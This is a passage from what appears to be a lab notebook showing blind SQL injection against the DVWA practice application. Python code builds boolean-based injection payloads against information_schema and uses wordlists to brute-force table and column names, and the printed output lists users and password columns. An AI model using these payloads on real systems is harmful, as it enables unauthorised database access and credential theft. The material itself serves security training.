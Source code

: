    The name of the database queried is : dvwa


### 3. Database tables

To find the tables in the **'dvwa'** DB, we'll use a wordlist of the most common table names.
The wordlist has been downloaded from  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-outputs.txt


```python
tables_wordlist = open('wordlist/tables.txt', 'r')
Lines = tables_wordlist.readlines()
tables_found = []

wordlist_of_tables = "wordlist/tables.txt"
sql_start = "' or EXISTS ( SELECT 1 FROM information_schema.tables WHERE table_schema = '"+ db_name +"' AND table_name LIKE '"
sql_end = "') -- -"
tables_found = send_request_with_wordlist(wordlist_of_tables, sql_start, sql_end)
tables_found
```

    [FOUND] =  users
    [FOUND] =  User_
    [FOUND] =  Users
    [FOUND] =  guestbook

    ['users', 'User_', 'Users', 'guestbook']



### 4. Columns in the "users" table

To find the columns in the 'users' table, we'll use a wordlist of the most common column names.
The wordlist has been downloaded from  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt


```python
columns_found = []
wordlist_of_columns = "wordlist/colonnes.txt"
sql_start = "' OR EXISTS (SELECT 1 FROM information_schema.columns WHERE table_schema = 'dvwa'  AND table_name = 'users' AND column_name = '"
sql_end = "') -- -"
columns_found = send_request_with_wordlist(wordlist_of_columns, sql_start, sql_end)

print("columns found in the users table are : ")
print(columns_found)
```

    [FOUND] =  user_id
    [FOUND] =  first_name
    [FOUND] =  last_name
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  last_login
    [FOUND] =  user_id
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  avatar
    columns found in the users table are : 
    ['user_id', 'first_name', 'last_name', 'password', 'user', 'last_login', 'user_id', 'password', 'user', 'avatar']
